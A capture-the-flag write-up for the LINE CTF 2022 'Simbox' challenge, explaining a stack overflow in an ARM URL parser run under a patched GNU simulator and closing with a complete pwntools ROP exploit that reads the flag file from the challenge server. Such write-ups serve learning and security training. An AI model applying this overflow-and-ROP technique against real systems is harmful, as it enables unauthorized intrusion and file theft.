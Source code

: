 # Simbox


was a pwn challenge from LINE CTF 2022

we were given two binaries,

an arm simulator , version information indicates GNU simulator (SIM) 11.2,

![](https://github.com/nobodyisnobody/write-ups/raw/main/LINE.CTF.2022/pwn/simbox/pics/gnusim.png)

this tool is included in GDB-11.2 distribution, it is an arm processor emulator, that run elf arm binaries, and emulates some basic syscalls..

A patch has been applied to it, and is given too.. A first look at it indicates that this patch forbid to open files that the name contains "flag" or "simbox" strings..

![](https://github.com/nobodyisnobody/write-ups/raw/main/LINE.CTF.2022/pwn/simbox/pics/patch.png)

The simulator emulates only open, read, write, lseek, syscalls.. not much more.. (some syscalls for memory info, useless for us...)

We were given too, an arm elf binary, that is a sort of url parser, that parse a given url, and print various parameters..

When we connect to the CTF server we land directly in the arm binary (ran via simulator), so we will have to exploit first the arm binary..

then we will see how to read flag, and "escape" from the simulator restrictions... (more on this later...)

**so let's reverse the arm binary...**

![](https://github.com/nobodyisnobody/write-ups/raw/main/LINE.CTF.2022/pwn/simbox/pics/main.reverse.png)

the main function is very simple as you can see, it allocates 0x800 bytes , then read our url in this buffer.. then pass it to the function parse_url(buff)

where all the magic happens!

**So...let's reverse parse_url(buff)**

![](https://github.com/nobodyisnobody/write-ups/raw/main/LINE.CTF.2022/pwn/simbox/pics/parseurl.reverse.png)

well, the function first verify that the url start with "http://",

that an hostname follows ended with '/',

then it looks for parameters, and specially for a paramater called "list=".

then it enters a loop parsing the "list" parameters one by one, and store their value converted to int via atoi in a buffer on stack,

one value after the others... until the end of the url.

**So where is the vulnerability you will ask?**

humm.. do you see a limit to the number of parameters?

no.. it will continue adding each "list=" values to stack.. until our url finish..

so we can overwrite return values, and write a rop to the stack basically with the "list=" parameters values...

There is a little difficulty, that will be an helper for us...

When we reach position 73, (the 73th "list=" value), we will overwrite the "pos" counter,

so me must take care of the value we will write to it..

it will help us , to "jump" directly to the return pointer value on stack, at position 79.

then after we will write our rop..

I did a simple open , read, write ROP, that opens a file and dumps it.. as they are only basic syscalls emulated anyway...

well.. I first opened /proc/self/cmdline , that gives me the commande line , and the remote programe directory "/home/simbox"

so I just tried opening "/home/simbox/flag", and guess what? that just give me flags...

**as you can see:**

![](https://github.com/nobodyisnobody/write-ups/raw/main/LINE.CTF.2022/pwn/simbox/pics/gotshell.gif)

well , the final explanation was that the patch applied to the simulator was ineffective :)

pretty strange idea from the challenge creator indeed...

Anyway, here is the exploit code:

```python3
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

context.update(arch="arm", os="linux")

exe = ELF('simbox')

host, port = "35.243.120.147", "10007"

p = remote(host,port)

system = 0xa0a8
puts = 0x08dcc
open = 0x9c74
read = 0xa1a8
url_string = 0x245a8        # point to url string in memory

gadget0 = 0x000135f0 # pop {r0, pc}
gadget1 = 0x00012e38 # mov r1, r5 ; pop {r4, r5, pc}
gadget2 = 0x00012908 # pop {r1, r2, lr}; mul r3, r2, r0; sub r1, r1, r3; mov pc, lr;
gadget3 = 0x00008c80 # pop {r4, pc};

payload = 'http://www.pipotin.com/?'
for i in range(73):
  payload += 'list=123&'
payload += 'list=79&'           # make pos point to return address

# we now construct our top
payload += 'list='+str(gadget2)+'&'
payload += 'list='+str(gadget2)+'&'
payload += 'list='+str(0)+'&'   # r1
payload += 'list='+str(0)+'&'   # r2
payload += 'list='+str(gadget3)+'&'  # set lr to gadget3 for functions return
payload += 'list='+str(0)+'&' # r4
# set r1 = 0
payload += 'list='+str(gadget1)+'&'
payload += 'list='+str(0)+'&'   # r4
payload += 'list='+str(0)+'&'   # r5
payload += 'list='+str(gadget1)+'&'
payload += 'list='+str(0)+'&'   # r4
payload += 'list='+str(0)+'&'   # r5
# set r0 = string and open
payload += 'list='+str(gadget0)+'&'
payload += 'list='+str(url_string+1024)+'&'
payload += 'list='+str(open)+'&'
payload += 'list='+str(0)+'&' # r4

# set r2 = 1024
payload += 'list='+str(gadget2)+'&'
payload += 'list='+str(0)+'&'   # r1
payload += 'list='+str(1024)+'&'   # r2
payload += 'list='+str(gadget3)+'&'  # set lr to gadget3 for functions return
payload += 'list='+str(0)+'&' # r4
# set r1 = url_string+1100
payload += 'list='+str(gadget1)+'&'
payload += 'list='+str(0)+'&'   # r4
payload += 'list='+str(url_string+1100)+'&'   # r5
payload += 'list='+str(gadget1)+'&'
payload += 'list='+str(0)+'&'   # r4
payload += 'list='+str(url_string+1100)+'&'   # r5
# read
payload += 'list='+str(read)+'&' 
payload += 'list='+str(0)+'&' # r4
#
payload += 'list='+str(gadget0)+'&'
payload += 'list='+str(url_string+1100)+'&'
payload += 'list='+str(puts)+'\x00'

payload = payload.ljust(1024,'A')
print('len of payload = '+str(len(payload)))
print('\npayload\n--------------------------\n'+payload)

payload += '/home/simbox/flag\x00'


p.sendlineafter('url> \n', payload)
p.interactive()
```

*nobodyisnobody still pwning things..*
